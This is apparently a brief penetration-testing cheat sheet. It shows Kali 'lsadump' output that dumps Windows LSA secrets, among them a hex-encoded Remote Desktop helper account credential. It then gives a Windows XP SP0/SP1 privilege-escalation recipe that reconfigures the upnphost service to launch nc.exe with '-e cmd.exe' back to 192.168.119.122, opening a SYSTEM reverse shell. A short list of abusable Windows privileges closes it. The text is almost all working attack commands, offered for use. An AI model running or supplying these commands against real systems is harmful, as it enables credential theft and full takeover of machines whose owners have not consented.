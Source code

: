 

##### lsadump

```bash
root@kali:~# lsadump system security
_SC_ALG

_SC_Dnscache

_SC_upnphost

20ed87e2-3b82-4114-81f9-5e219ed4c481-SALEMHELPACCOUNT

_SC_WebClient

_SC_RpcLocator

0083343a-f925-4ed7-b1d6-d95d17a0b57b-RemoteDesktopHelpAssistantSID
0000   01 05 00 00 00 00 00 05 15 00 00 00 B6 44 E4 23    .............D.#
0010   F4 50 BA 74 07 E5 3B 2B E8 03 00 00                .P.t..;+....

0083343a-f925-4ed7-b1d6-d95d17a0b57b-RemoteDesktopHelpAssistantAccount
0000   00 38 00 48 00 6F 00 31 00 49 45 00 4A 00 26 00    E.J.&.8.H.o.1.I.
0010   00 63 00 72 00 48 00 68 00 53 6B 00 00 00          h.S.c.r.H.k...
```





### Windows XP SP0/SP1 Privilege Escalation to System

```powershell
sc qc upnphost
sc qc SSDPSRV

sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 192.168.119.122 4433 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

On the new shell
C:\Inetpub\wwwroot\nc.exe 192.168.119.122 4422 -e C:\WINDOWS\System32\cmd.exe

```





# Suspicious Privilages

```
SeBackupPrivilege
SeLoadDriverPrivilege
SeImpersonate

```

